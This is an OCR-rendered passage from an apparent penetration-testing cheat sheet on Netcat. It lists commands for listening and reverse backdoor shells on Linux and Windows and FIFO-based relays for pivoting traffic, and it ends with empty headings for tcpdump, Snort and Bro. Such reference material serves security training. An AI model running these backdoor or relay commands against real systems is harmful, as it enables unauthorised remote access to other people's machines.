 ```
second for a connection to occur (-w1). Then send a
blank string to the open port and print out any
banner received in response
Add –r to randomize destination ports within the
range
Add –p [port] to specify a source port for the

* NetCat Backdoor Shells

Listening backdoor shell on Linux:
```
$ nc –l –p [LocalPort] –e /bin/bash
```
Listening backdoor shell on Windows:
```   
C:\> nc –l –p [LocalPort] –e cmd.exe
```

Create a shell on local port [LocalPort] that can then be accessed using a fundamental Netcat client
NetCt Reverse backdoor shell on Linux:
```
$ nc [YourIPaddr] [port] –e /bin/bash
```
Reverse backdoor shell on Windows:
```
C:\> nc [YourIPaddr] [port] –e cmd.exe
```
Create a reverse shell that will attempt to connect to
[YourIPaddr] on local port [port]. This shell
can then be captured using a fundamental nc listener

Netcat Relays on Linux
To start, create a FIFO (named pipe) called backpipe:
```
   $ cd /tmp
   $ mknod backpipe p
```
Listener-to-Client Relay:
```
   $ nc –l –p [LocalPort] 0<backpipe | nc [TargetIPaddr] [port] | tee backpipe
```
Create a relay that sends packets from the local port [LocalPort] to a Netcat client connected to [TargetIPaddr] on port [port]
Listener-to-Listener Relay:
```
   $ nc –l –p [LocalPort_1] 0<backpipe | nc –l –p [LocalPort_2] | tee backpipe
```
Create a relay that sends packets from anyconnection on [LocalPort_1] to any connection on [LocalPort_2]

Client-to-Client Relay:
```
   $ nc [PreviousHopIPaddr] [port] 0<backpipe | nc [NextHopIPaddr] [port2] | tee backpipe
```

Create a relay that sends packets from the connection to [PreviousHopIPaddr] on port [port] to a Netcat client connected to [NextHopIPaddr] on port [port2]


# TCP Dump 
   
# SNORT IDS

# BRO 

```